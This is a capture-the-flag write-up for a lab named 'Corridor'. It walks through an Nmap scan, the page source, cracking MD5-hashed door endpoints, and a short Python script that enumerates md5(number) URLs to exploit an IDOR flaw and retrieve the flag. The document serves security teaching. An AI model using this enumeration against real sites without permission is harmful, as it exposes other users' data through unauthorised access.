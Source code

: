 # Corridor


1. Run a port scan with Nmap.
```
root@ip-10-10-65-182:~# sudo nmap -sS -A -sC 10.10.227.96

Starting Nmap 7.60 ( https://nmap.org ) at 2022-09-30 21:22 BST
Nmap scan report for ip-10-10-227-96.eu-west-1.compute.internal (10.10.227.96)
Host is up (0.00056s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor
MAC Address: 02:AE:0B:CC:38:27 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=9/30%OT=80%CT=1%CU=39902%PV=Y%DS=1%DC=D%G=Y%M=02AE0B%T
OS:M=63375036%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4
OS:ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1
OS:=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=3F%W=FAF0%O
OS:=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms ip-10-10-227-96.eu-west-1.compute.internal (10.10.227.96)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

2. Navigate to the website and we're presented with an image of 13 doors. If we view the page source with `Ctrl+U` we find that the website consists of a single image with multiple `area` tags, which create clickable areas around the image. We see that they lead to endpoints that look like hashes. Hovering over the image we find that we can click on each of the doors.
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
    <title>Corridor</title>

    <link rel="stylesheet" href="/static/css/main.css">
</head>

<body>

<img src="/static/img/corridor.png" usemap="#image-map">

    <map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>

</body>
</html>
```

3. If we insert the hashes into crackstation we find that they're md5sums of the digits from 1-13. The description of the CTF says that this is vulnerable to IDOR, so we can try picking other digits, hashing them with md5, and checking to see if an endpoint for that hash exists.
```
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
1679091c5a880faf6fb5e6087eb1b2dc
8f14e45fceea167a5a36dedd4bea2543
c51ce410c124a10e0db5e4b97fc2af39
c20ad4d76fe97759aa27a0c99bff6710
6512bd43d9caa6e02c990b0a82652dca
d3d9446802a44259755d38e6d163e820
45c48cce2e2d7fbdea1afc51c7c6ad26
c9f0f895fb98ab9159f51fd0297e236d
```

4. I wrote this simple Python script to check for endpoints with the digits from 0-20.
```
import requests
import hashlib


for i in range(0, 20):

    hash = hashlib.md5(str(i).encode()).hexdigest()
    res = requests.get("http://10.10.226.120/" + hash)

    if res.status_code == 200:
        print(i, hash)
```

5. After running the script I found that one of the numbers wasn't present in the picture, 0. Navigating to `http://10.10.227.96/cfcd208495d565ef66e7dff9f98764da` gave me the flag `flag{2477ef02448ad9156661ac40a6b8862e}`.
```
0 cfcd208495d565ef66e7dff9f98764da
1 c4ca4238a0b923820dcc509a6f75849b
2 c81e728d9d4c2f636f067f89cc14862c
3 eccbc87e4b5ce2fe28308fd9f2a7baf3
4 a87ff679a2f3e71d9181a67b7542122c
5 e4da3b7fbbce2345d7772b0674a318d5
6 1679091c5a880faf6fb5e6087eb1b2dc
7 8f14e45fceea167a5a36dedd4bea2543
8 c9f0f895fb98ab9159f51fd0297e236d
9 45c48cce2e2d7fbdea1afc51c7c6ad26
10 d3d9446802a44259755d38e6d163e820
11 6512bd43d9caa6e02c990b0a82652dca
12 c20ad4d76fe97759aa27a0c99bff6710
13 c51ce410c124a10e0db5e4b97fc2af39
```